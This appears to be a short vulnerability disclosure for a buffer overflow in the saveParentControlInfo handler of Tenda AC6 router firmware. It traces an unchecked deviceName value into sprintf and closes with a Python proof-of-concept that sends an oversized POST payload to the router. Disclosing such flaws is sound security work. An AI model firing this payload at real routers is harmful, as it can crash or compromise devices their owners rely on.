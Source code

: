 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/saveParentControlInfo

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10/5.png)

get value from deviceName ,then call set_device_name

![](../Tenda_AC10/6.png)

if deviceName and deviceId are are not null, call sprintf, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/saveParentControlInfo"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'deviceName': payload, 'deviceId': 1})
``` 
